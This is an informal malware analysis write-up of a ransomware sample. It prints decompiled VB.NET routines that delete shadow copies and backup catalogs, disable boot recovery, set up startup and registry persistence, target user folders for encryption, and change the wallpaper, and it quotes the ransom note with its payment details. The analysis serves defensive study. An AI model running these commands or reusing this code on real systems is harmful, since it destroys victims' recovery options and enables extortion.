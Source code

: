 # Analysis Lizard Squad Ransomware 


[Twitter](https://twitter.com/patri1ck)


Hello Guys ,Today We Will Analysis Ransomware Sample That I Found On Twitter Account [Tweet](https://twitter.com/petrovic082/status/1546833472353968129?s=21) 

Let's Dive Into It 

## Functions 
- [Delete Shadow Copies](#Delete-Shadow-Copies-:)
- [Disable Recovery Mode](#Disable-Recovery-Mode-:)
- [Delete Backup Catalog](#Delete-Backup-Catalog-:)
- [Add Link To Startup](#Add-Link-To-Startup-:)
- [Registry Startup](#Registry-Startup-:)
- [look For Directories](#look-For-Directories-:)
- [Set Wallpaper](#Set-Wallpaper-:)
- [Add And Open Note](#Add-And-Open-Note-:)

## Delete Shadow Copies :
    Will Execute This Command :
        "vssadmin delete shadows /all /quiet & wmic shadowcopy delete"
    For Delete Shadows copies
<details>
    <summary>Code (click to expand/collapse)</summary>
```vb
Private Shared Sub DeleteShadowCopies()
    Program.runCommand("vssadmin delete shadows /all /quiet & wmic shadowcopy delete")
End Sub
```
</details>

## Disable Recovery Mode :
    Will Execute This Command :
        "bcdedit /set {default} bootstatuspolicy ignoreallfailures & bcdedit /set {default} recoveryenabled no"
	to Disable Recovery Mode This Command will Not Allow To The Victim To Use The Recovery Mode 
<details>
    <summary>Code (click to expand/collapse)</summary>
```vb
Private Shared Sub DisableRecoveryMode()
    Program.runCommand("bcdedit /set {default} bootstatuspolicy ignoreallfailures & bcdedit /set {default} recoveryenabled no")
End Sub
```
</details>
## Delete Backup Catalog :
	Will Execute This Command :
		"wbadmin delete catalog -quiet"
	To Delete BackUp Catalog 
<details>
    <summary>Code (click to expand/collapse)</summary>
```vb
Private Shared Sub DisableRecoveryMode()
    Program.runCommand("wbadmin delete catalog -quiet")
End Sub
```
</details>
## Add Link To Startup :
    Make lnk File in startup 
	For persistence
<details>
    <summary>Code (click to expand/collapse)</summary>
```vb
Private Shared Sub AddLinkToStartup()
	Dim folderPath As String = Enviroment.GetFolderPath(Enviroment.SpecialFolder.Startup)
	Dim str As String = Process.GetCurrentProcess().ProcessName
	Using streamWriter As StreamWriter = New StreamWriter(folderPath + "\" + str + ".url")
		Dim location As String = Assembly.GetExecutingAssembly().location
		streamWriter.WriteLine("[InternetShortcut]")
		streamWriter.WriteLine("URL=file:///"+location)
		streamWriter.WriteLine("iconIndex=0")
		Dim str2 As String = location.Replace("\"c,"/"c)
		streamWriter.WriteLine("IconFile=" + str2)
		End Using
End Sub
```
</details>
## Registry Startup :
    Set Registry Name Value "Microsoft Store" And Will Set Registry Value Data to The RansomWare Path 
	The Key :
		"HKCU/SOFTWARE\Microsoft\Windows\CurrentVersion\Run"
	To Do persistence
## look For Directories :
	This Function Will Look For Directories And Encrypted It
	The List Of The Directories as Saved As String With User Main Dir 
- Desktop
- Links
- Contacts
- Documents
- Downloads
- Pictures
- Music
- OneDrive
- Saved Games
- Favorites
- Searches
- Videos

<details>
    <summary>Code (click to expand/collapse)</summary>
```vb
Dim location As String = Program.userDir + Program.userName + "\Desktop"
Dim location2 As String = Program.userDir + Program.userName + "\Links"
Dim location3 As String = Program.userDir + Program.userName + "\Contacts"
Dim location4 As String = Program.userDir + Program.userName + "\Desktop"
Dim location5 As String = Program.userDir + Program.userName + "\Documents"
Dim location6 As String = Program.userDir + Program.userName + "\Downloads"
Dim location7 As String = Program.userDir + Program.userName + "\Pictures"
Dim location8 As String = Program.userDir + Program.userName + "\Music"
Dim location9 As String = Program.userDir + Program.userName + "\OneDrive"
Dim location10 As String = Program.userDir + Program.userName + "\Saved Games"
Dim location11 As String = Program.userDir + Program.userName + "\Favorites"
Dim location12 As String = Program.userDir + Program.userName + "\Searches"
Dim location13 As String = Program.userDir + Program.userName + "\Videos"
Program.encryptDirectory(location)
Program.encryptDirectory(location2)
Program.encryptDirectory(location3)
Program.encryptDirectory(location4)
Program.encryptDirectory(location5)
Program.encryptDirectory(location6)
Program.encryptDirectory(location7)
Program.encryptDirectory(location8)
Program.encryptDirectory(location9)
Program.encryptDirectory(location10)
Program.encryptDirectory(location11)
Program.encryptDirectory(location12)
Program.encryptDirectory(location13) 
```
## !Dump! He Could Do It With For Loop !
</details>

## Set Wallpaper :
    This func Will Change The Wallpaper
	To This Image :
[![N|Solid](https://pbs.twimg.com/media/FXd016dXoAYn99q?format=jpg&name=small)
<details>
    <summary>Code (click to expand/collapse)</summary>
```vb
Public Shared Sub SetWallpaper(base64 As string)
  if base64 <> "" Then
    Try
      Dim text As String = Path.GetTempPath() + Program.RandomString(9) + ".jpg"
      File.WriteAllBytes(text,Convert.FromBase64String(base64))
      Program.SystemParametersInfo(20UI, 0UI,text,1UI)
    Catch
    End Try
  End If
End Sub
```
</details>
## Add And Open Note :
    This Function Will Write Message For Victim
	The Name Of a File "說明it.txt" 
	And The Message :
	"我來自一個名為：蜥蜴小隊的國際組織", "我們是黑客組織", "我的名字是：09先生", "我會用你的電腦作為收款的抵押品", "", "請支付：USDT-TRC20", "金額：2000", "付款地址：TRZRAM9KL5qv1BMrXxo876wetHfzT19sii", "聯繫方式 ：woo090909@mail2tor.com", "電報：@woo090909", "付款後聯繫我，我會為你解鎖", "如果您不付款，您的計算機和文件將被自動銷毀，", "如果你真的想解決，請隨時支付費用，聯繫我，我會考慮給你打折", 
	"I'm from an international organization called: Lizard Squad , we are a hacker group , My name is: Mr. 09 , I will use your computer as collateral for collection , Please pay: USDT-TRC20 , Amount: 2000 , Payment address: TRZRAM9KL5qv1BMrXxo876wetHfzT19sii , contact details : woo090909@mail2tor.com , telegraph: @woo090909 , Contact me after payment and I will unlock it for you , If you do not pay, your computer and files will be automatically destroyed , If you really want a fix, feel free to pay the fee, contact me and I'll consider giving you a discount" 
Hmmm , The Name Of The Group Looks Familiar To Me :
	https://en.wikipedia.org/wiki/Lizard_Squad

> it seems To me The Ransomware Has Been Built By Ransomware Builder Because I Found It In The source Code , there are Functions Not Used By The Ransomware Sample That I Have And I See Settings Strings Not Used
